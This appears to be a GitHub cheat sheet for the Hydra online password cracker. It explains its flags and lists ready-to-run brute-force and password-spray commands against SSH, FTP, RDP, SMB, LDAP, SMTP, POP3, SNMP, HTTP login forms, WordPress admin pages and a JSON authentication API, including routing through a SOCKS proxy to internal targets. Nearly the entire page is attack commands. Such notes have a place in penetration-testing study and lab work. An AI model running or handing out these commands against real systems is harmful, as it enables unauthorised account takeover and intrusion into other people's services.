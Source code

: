 # HYDRA ONLINE PASSWORD CRACKER

## Supports A LOT of protocols

## Complementary source: https://github.com/frizb/Hydra-Cheatsheet/tree/master

### Commands:

#### -t 4 = Number of parallel connections per target

#### -l USER = Points to the user who's account to compromise (Brute-force)

#### -L = Wordlist for users

#### -p PASSWORD = Points to password to find user (Password spray)

#### -P = Wordlist for passwords

#### -vv = Very verbose

#### protocol = ftp, ssh, http-post-form (Requires login error to work), http-get, etc.

### Example: hydra -l USER -P LIST -f TARGET_IP http-get /directory/

## JSON brute force with hydra

### Example:

#### hydra -l USER -P rockyou.txt TARGET_IP -s TARGET_PORT http-post-form "/api/session/authenticate{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Authentication failed:H=Content-Type\: application/json" -t 64

### Run Hydra using a proxy against an internal target with the commands:

    export HYDRA_PROXY=socks5://localhost:1080

    hydra -L users.txt -P passwords.txt TARGET_IP ssh -V

## Alternate Trick: Combine your username and password list into a single "userpass" file

### 1) Write the usernames and passwords in a single file divided by the symbol ':'

### 2) Then run

    hydra -C combined.txt TARGET_IP ssh -V

# Hydra-Cheatsheet
Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:  

`export ip 10.10.10.1`


| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| hydra -P password-file.txt -v $ip snmp                                                                                                    | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                       | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                              | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                         | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt                                                                                         | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |
  
